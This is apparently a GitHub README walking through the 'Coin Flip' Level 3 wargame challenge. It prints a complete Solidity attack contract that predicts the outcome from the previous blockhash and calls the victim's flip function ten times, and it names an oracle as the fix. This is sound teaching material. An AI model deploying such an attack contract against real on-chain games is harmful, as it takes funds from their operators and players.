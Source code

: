 # Coin Flip Challenge - Level 3 🚧 Update In Progress 🏗

```yml
This smart contract has a vulnerability, it's use of the public source of randomness makes it vulnerable because:
```
- the ethereum blockchain is fully transparent and everything is public and can be viewed,

```Solidity
/**  
* @notice Blockhash and block.number are globally accessible variables available to everyone, 
* this is the source of randomness and can be exploited in the attack to calculate the correct side of the coin flip.
* The best practice in this case would be to introduce a source of randomness into a contract with a 
* decentralized oracle to compute random numbers, because there is no native way to generate random numbers in 
* Solidity and everything is publicly visible in the contract.
*/
/// @notice The attack contract can use the same process as the victim contract to find the value for the flip.
function flip(bool _guess) public returns (bool) {
  uint256 blockValue = uint256(blockhash(block.number.sub(1))); 
  uint256 coinFlip = blockValue.div(FACTOR); 
  bool side = coinFlip == 1 ? true : false;
```
  - after the attack contract finds the value for the flip it is assigned to the call to the flip function of the victim contract,
    - the player calls this flip function 10 times in a row to win.

```Solidity
victimContract.flip(side);
```

## 💥 The attack contract in detail:

```yml
The attack contract starts with importing the victim contract:
```
- this will be used in the attack contract's constructor,

```Solidity
// SPDX-License-Identifier: MIT
// fixed pragma
pragma solidity 0.5.0; 

import "./CoinFlip.sol";
// outdated import for SafeMath, pragma 0.8.0 has SafeMath included in version
import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v2.5.0/contracts/math/SafeMath.sol";

/// @title attack contract, calculates correct side 10 times in a row
/// @author Web3 Blockchain Developer 
contract CoinFlipAttack {
    /** 
    * @notice Using for directive, using imported SafeMath functions from openzeppelin,
    * for unit256 to prevent overflow and underflow attacks. 
    */
    using SafeMath for uint256;
```
- the public state variable victimContract references the victim contract as CoinFlip and will be assigned by the player when the attack contract is deployed using the constructor,
- the attack contract also uses the state variable FACTOR from the victim contract,
- the constructor receives the victim contract address from the player and references the victim contract with CoinFlip(_victimContractAddr), this address is assigned as the public state variable victimContract,

```Solidity
/// @notice public state variable assigned in constructor
    CoinFlip public victimContract; 
    
    // state variable assigned in function flip()
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    
    /** 
    * @notice victim address belonging to CoinFlip assigned as public state variable victimContract 
    * during deployment of attack contract 
    */
    constructor(address _victimContractAddr) public {
        victimContract = CoinFlip(_victimContractAddr);
    }
```
- finally the attack begins,
- after the attack contract finds the value for the flip it is assigned to the call to the flip function of the victim contract,
    - the player calls this flip function 10 times in a row to win.

```Solidity

/**  
* @notice Blockhash and block.number are globally accessible variables available to everyone, 
* this is the source of randomness and can be exploited in the attack to calculate the correct side of the coin flip.
* The best practice in this case would be to introduce a source of randomness into a contract with a 
* decentralized oracle to compute random numbers, because there is no native way to generate random numbers in 
* Solidity and everything is publicly visible in the contract.
*/
/// @notice The attack contract can use the same process as the victim contract to find the value for the flip.
function flip() public returns(bool) {
  uint256 blockValue = uint256(blockhash(block.number.sub(1)));
  
  uint256 coinFlip = blockValue.div(FACTOR); 
        
  bool side = coinFlip == 1 ? true : false;

  victimContract.flip(side);
    }
}

```
## 💥 The attack contract locked and loaded in REMIX IDE

```yml
Fire away at that flip button, ten times:
```
- lower left of the image, under the Deployed Contracts section, orange button labeled flip.

<p align="left" >
<img width="506" height="512" src="https://user-images.githubusercontent.com/104662990/199078205-0c19814b-c867-46bf-8b1e-9404585037af.png">
</P>



    
    

